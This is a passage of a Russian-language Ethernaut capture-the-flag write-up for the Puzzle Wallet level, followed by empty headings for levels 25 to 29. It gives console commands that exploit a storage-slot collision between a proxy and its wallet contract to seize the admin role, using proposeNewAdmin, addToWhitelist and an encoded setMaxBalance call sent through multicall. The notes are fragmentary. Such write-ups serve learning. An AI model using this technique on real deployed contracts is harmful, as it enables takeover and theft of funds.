 ```
    uint256 public maxBalance;      //slot 1
    ...
}
Сначала я запрошу администво через pendingAdmin. Это поменяет в PuzzleWallet адрес владельца контракта.
Открываю remix, PuzzleProxy as address, вызывааю PuzzleProxy.proposeNewAdmin(player)
Теперь я админ в PuzzleWallet. А это значит могу добавить себя в Whitelist
>await contract.addToWhitelist(player)


нет - , а после вызвав setMaxBalance() указав в аргументе свой адрес переписать в PuzzleProxy адрес admin. 


>let dd = _ethers.utils.defaultAbiCoder.encode([ "bytes4", "address" ], [ _ethers.utils.keccak256(_ethers.utils.toUtf8Bytes("setMaxBalance(uint256)")).substr(0,10), player ])
>await contract.multicall([dd])


### 25. Motorbike (***)


### 26. DoubleEntryPoint (**)


### 27. Good Samaritan (***)


### 28. Gatekeeper Three (***)


### 29. Switch (****)


